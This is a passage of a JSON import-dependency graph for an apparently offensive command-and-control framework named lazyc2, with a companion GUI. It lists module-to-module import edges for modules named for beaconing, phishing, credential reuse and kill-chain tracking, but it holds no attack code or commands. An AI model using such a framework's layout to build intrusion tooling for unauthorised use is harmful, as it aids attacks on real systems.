"lazyc2/blueprints/auth.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "modules.credential_reuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/beacon.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/operations.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/operations.py", "target": "markdown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/operations.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/operations.py", "target": "lazyc2.blueprints.session_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/operations.py", "target": "lazyc2.extensions.decoy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/operations.py", "target": "lazyc2.extensions.storage"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/operations.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "werkzeug.utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "lazyc2.extensions.short_urls"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "modules.security_sanitizers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/phishing.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/session_auth.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/session_auth.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/session_auth.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/__init__.py", "target": "lazyc2.extensions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/decoy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/decoy.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/short_urls.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/short_urls.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/short_urls.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/short_urls.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/short_urls.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/short_urls.py", "target": "validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/storage.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/storage.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/storage.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/storage.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/storage.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/extensions/users.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/models.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/models.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/command_allowlist.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/command_allowlist.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/command_allowlist.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/command_allowlist.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/command_allowlist.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/command_allowlist.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/command_allowlist.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/constants.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/cors.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/cors.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/cors.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/csrf.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/csrf.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/csrf.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/csrf.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/html_sanitizer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/html_sanitizer.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/html_sanitizer.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/html_sanitizer.py", "target": "bleach"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/html_sanitizer.py", "target": "lazyc2.security.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/https_redirect.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/https_redirect.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/services.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/services.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/services.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/services.py", "target": "lazyc2.security.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/services.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/trusted_proxy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/trusted_proxy.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/validators.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/validators.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/security/validators.py", "target": "lazyc2.security.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/state.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "errno"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "html"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "string"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "markdown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "yagmail"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "dnslib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "dnslib.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "flask_limiter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "flask_limiter.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "flask_socketio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "jinja2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "watchdog.events"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "watchdog.observers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "werkzeug.exceptions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "werkzeug.security"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "werkzeug.utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.command_allowlist"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.cors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.csrf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.html_sanitizer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.https_redirect"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.services"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.services"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.services"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.trusted_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.security.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.colors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.listener_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.live_surface"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.llm_adapter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.metrics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.security_sanitizers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "pyotp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.extensions.users"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.lazy_mentions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.attack_surface3d"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.attack_surface3d"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyc2.blueprints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.compliance"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.compliance"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.compliance"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.compliance"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.compliance"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.kill_chain_viz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.report_templates"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "skills.daemon_health"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "skills.daemon_health"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "atexit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "dashboard_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.event_consumers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.credential_reuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "event_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/__init__.py", "target": "lazygui.version"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/__main__.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/__main__.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/__main__.py", "target": "lazygui.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.config.c2_credentials"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.config.paths"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.config.settings"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.services.event_log"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.services.factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.theme.manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.windows.connect_dialog"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.windows.main_window"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/app.py", "target": "lazygui.services.teamserver_backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/__init__.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/__init__.py", "target": "lazygui.config.paths"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/__init__.py", "target": "lazygui.config.settings"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/c2_credentials.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/c2_credentials.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/c2_credentials.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/c2_credentials.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/c2_credentials.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/constants.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/constants.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/constants.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/paths.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/paths.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/paths.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/paths.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/paths.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "json"}, {"confidence": 